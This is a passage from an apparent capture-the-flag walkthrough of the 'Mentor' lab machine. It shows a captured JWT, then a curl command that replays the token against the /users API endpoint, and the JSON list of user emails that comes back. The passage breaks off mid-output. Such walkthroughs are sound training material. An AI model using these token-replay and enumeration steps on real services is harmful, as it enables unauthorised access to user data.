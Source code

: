 ```
HTTP/1.1 200 OK
Date: Sun, 19 Feb 2023 07:05:44 GMT
Server: uvicorn
content-length: 154
content-type: application/json
access-control-allow-origin: *
access-control-allow-credentials: true
Connection: close

"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0"
```
We have a JWT..  Now let's try the `/users` endpoint again.  We use `-s` for silent output, `-H` to specify our Host and Authorization headers.  Note we specify the url http://api.mentorquotes.htb/users, as the main domain will 302 redirect here anyway:

```bash
$curl -s -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0" -H "Host: api.mentorquotes.htb" http://api.mentorquotes.htb/users | jq
[
  {
    "id": 1,
    "email": "james@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 2,
    "email": "svc@mentorquotes.htb",
    "username": "service_acc"
  },
  {
    "id": 4,
    "email": "foo@bar.com",
    "username": "foobar"
  },
  {
    "id": 5,
    "email": "james@foo.bar",
    "username": "james"
  },
  {
    "id": 6,
    "email": "admin@mentorquotes.htb",
    "username": "admin"
  },
  {
    "id": 7,
    "email": "james2@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 8,
    "email": "admin2@mentorquotes.htb",
    "username": "admin"
  },
  {
    "id": 9,
    "email": "admin3@mentorquotes.htb",
    "username": "mentor"
  },
  {
    "id": 10,
    "email": "james22@mentorquotes.htb",
```